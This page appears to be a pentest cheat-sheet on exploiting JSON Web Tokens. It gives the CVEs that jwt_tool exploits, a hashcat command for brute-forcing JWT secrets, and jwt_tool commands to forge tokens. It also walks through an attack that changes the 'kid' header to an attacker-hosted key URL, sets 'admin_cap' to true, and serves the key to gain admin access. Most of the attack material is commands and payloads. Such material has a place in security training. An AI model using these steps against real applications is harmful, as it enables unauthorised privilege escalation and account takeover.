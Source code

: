 [back](/)

### JSON Web Tokens exploitation

What JSON Web Token (JWT) is? It is an open standard RFC 7519 for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. 
JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: jwt.io. 

The JWT is divided into three sections, separated by a dot: **HEADER.PAYLOAD.SIGNATURE**

To work with the JWT, [jwt_tool](https://github.com/ticarpi/jwt_tool) utility is best suited, which will allow exploiting the most popular vulnerabilities:

```
(CVE-2015-2951) The alg=none signature-bypass vulnerability
(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
(CVE-2018-0114) Key injection vulnerability
(CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
(CVE-2020-28042) Null signature vulnerability
```

In case there are no vulnerabilities, you can try to guess or brute the JWT encryption password and try to collect a new key with changed values. For example, set the flag **"is_admin":"true"** or something similar. In order to generate the appropriate JWT, that will be suitable for the application, a secret key is required.

To brute force a JWT using a dictionary:

```
hashcat -a 0 -m 16500 jwthash.txt wordlist.txt
```

![Image](/img/jwt/1.png)

To parse JWT, you can use [jwt.io](https://jwt.io/) site or the [jwt_tool.py](https://github.com/ticarpi/jwt_tool) utility:

![Image](/img/jwt/2.png)

![Image](/img/jwt/2.5.png)

To generate JWT:

```
python3 jwt_tool.py -b -S hs256 -p 'keypass' $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"data": {"username": "jaki"}}' | base64 -w0).
```

An example of an attack on a JWT, where the HEADER section uses reading the private key, to decrypt the token:

```
HEADER:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key" --- change to attacker ip
}

PAYLOAD

{
  "username": "root",
  "email": "1@test.ru",
  "admin_cap": false --- change on true 
}
```

In this example, the attacker can try to replace the ip-address with his own, having previously created a pair of keys:

```
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
```

Initially, access to the admin panel is closed due to the set flag, in PAYLOAD: "admin_cap": false.

![Image](/img/jwt/3.png)

There are two ways to encrypt a JWT with the "admin_cap": true flag and the "kid" HEADER key:

1. Using the site https://jwt.io/
2. Or using jwt_tool.py

```
python3 jwt_tool.py CURRENT_JWT -T -S rs256 -pr /tmp/keys/privKey.key
```

![Image](/img/jwt/4.png)

![Image](/img/jwt/4.5.png)

Before sending the JWT application, you need to start the http server to access the private key:

![Image](/img/jwt/5.png)

The attacker gained access to the admin panel

![Image](/img/jwt/6.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)